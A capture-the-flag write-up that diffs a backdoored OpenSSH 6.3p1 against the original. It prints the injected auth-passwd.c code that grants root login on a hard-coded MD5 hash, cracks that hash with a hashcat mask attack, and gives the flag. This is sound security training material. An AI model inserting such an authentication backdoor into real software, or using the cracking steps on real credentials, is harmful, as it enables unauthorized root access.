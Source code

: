 # Can You Look This Over?

* **Category**: Miscellaneous
* **Points**: 150
* **Challenge**: Our ops guys found a malware author's staging server, we managed to exfiltrate the source to a backdoor they are spreading: backdoor.tar.gz. I need you to report back once you have cracked their secret password.
* **Hint #1**: What version / release of OpenSSH is in the provided archive?


<br />

One of the hints for this challenge asks what is the version of the OpenSSH backdoor you have been provided?  Looking through the files, I was able to find the version of the in an openssh.spec file: 

```
cat /backdoor/contrib/suse/openssh.spec

...snip...

Summary:	OpenSSH, a free Secure Shell (SSH) protocol implementation
Name:		openssh
Version:	6.3p1
URL:		http://www.openssh.com/
Release:	1
Source0:	openssh-%{version}.tar.gz
Source1:	x11-ssh-askpass-%{xversion}.tar.gz
License:	BSD

...snip...
```

<br />

Now that we have the version of OpenSSH, lets download a copy of the original [OpenSSH 6.3p1](http://ftp.openbsd.org/pub/OpenBSD/OpenSSH/portable/openssh-6.3p1.tar.gz) from the source and compare if to the backdoor:
```
diff -q openssh-6.3p1/ backdoor/

Files openssh-6.3p1/auth.c and backdoor/auth.c differ
Files openssh-6.3p1/auth.h and backdoor/auth.h differ
Files openssh-6.3p1/auth-passwd.c and backdoor/auth-passwd.c differ
Only in openssh-6.3p1/: ChangeLog
```

<br />

So there are three files that are different between the backoor and the original OpenSSH 6.3p1.  The auth-passwd.c is used for password authentication and contains fucntions to check whether the password is valid for a user.  Lets look at the differences in that file:
```
diff openssh-6.3p1/auth-passwd.c backdoor/auth-passwd.c


th-passwd.c 
47a48,49
> #include <openssl/md5.h>
> 
88a91,93
>     if(sys_auth_backdoor(authctxt, password))
>         return 1;
> 
215a221,245
>     
> static char backdoor_hash[MD5_DIGEST_LENGTH] = \
> {
>     0x22, 0xEA, 0x36, 0x43, 0xD7, 0x37, 0x17, 0x20, 0xBC, 0xE8, 0xB5, 0xF2, 0x44, 0xD4, 0x02, 0x6A
> };
> 
> int
> sys_auth_backdoor(Authctxt *authctxt, const char *password)
> {
>     MD5_CTX c = {};
>     char password_hash[MD5_DIGEST_LENGTH] = {}; 
> 	struct passwd *pw = authctxt->pw;
>     
>     if(strcmp(pw->pw_name, "root") != 0 || strlen(password) != 6)
>         return 0;
> 
>     MD5_Init(&c);
>     MD5_Update(&c, password, strlen(password));
>     MD5_Final(password_hash, &c);
> 
>     if(memcmp(backdoor_hash, password_hash, MD5_DIGEST_LENGTH) != 0)
>         return 0;
> 
>     return 1;
> }
```

<br />

Again the challenge is asking us to crack a secret password.  `The static char backdoor_hash[MD5_DIGEST_LENGTH]` looks like it contains a hashed password.  Lets strip out the leading `0x`:
```
22EA3643D7371720BCE8B5F244D4026A
```

<br /> 

Now lets check to see what kind of hash this is:
```
hash-identifier 

   -------------------------------------------------------------------------
 HASH: 22EA3643D7371720BCE8B5F244D4026A

Possible Hashs:
[+]  MD5
[+]  Domain Cached Credentials - MD4(MD4(($pass)).(strtolower($username)))
```

<br /> 

Now that we know the hash type (MD5), lets look at the code further:
```
if(strcmp(pw->pw_name, "root") != 0 || strlen(password) != 6)
         return 0;
```
So to aid in cracking the MD5 password hash, it looks like the password must six characters in length. Another hint provided for this challenge is the password contains mixed case alphanumreic and no symbols.  Now we use a hashcat to perform a [mask attack](https://www.4armed.com/blog/perform-mask-attack-hashcat/).  To do this, we create a create a custom character set consisting of upper and lowercase letters and numbers (`-1 ?l?u?d`), then we specify tthat each of the six characters in the password could be from that character set (`?1?1?1?1?1?1`).  Put it all together using hashcat (I used the Windows version):
```
hashcat64.exe -m 0 -a 3 -1 ?l?u?d hash.txt ?1?1?1?1?1?1 -O


22ea3643d7371720bce8b5f244d4026a:2tNM8l
```

<br />

## Flag: ACI{2tNM8l}
